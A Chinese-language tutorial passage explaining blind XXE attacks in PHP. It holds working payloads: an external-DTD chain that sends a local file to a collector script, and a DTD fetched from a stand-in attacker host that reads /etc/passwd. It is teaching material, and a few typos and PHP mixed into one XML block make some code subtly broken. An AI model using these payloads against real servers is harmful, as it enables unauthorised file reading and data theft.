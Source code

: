**无回显的情况**

blind xxe漏洞方案1：

对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

创建test.php写入以下内容：

```
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

创建index.php写入以下内容：

```
<?php 
$xml=<<<EOF 
<?xml version="1.0"?> 
<!DOCTYPE ANY[ 
<!ENTITY % file SYSTEM "file:///C:/test.txt"> 
<!ENTITY % remote SYSTEM "http://localhost/test.xml"> 
%remote;
%all;
%send; 
]> 
EOF; 
$data = simplexml_load_string($xml) ; 
echo "<pre>" ; 
print_r($data) ; 
?>
```

创建test.xml并写入以下内容：

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```

当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

blind xxe漏洞方案2：
可以将文件内容发送到远程服务器，然后读取。

```
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
        <!ENTITY % f SYSTEM "http://yourhost/evil.dtd">
        %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```

远程服务器的evil.dtd文件内容

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
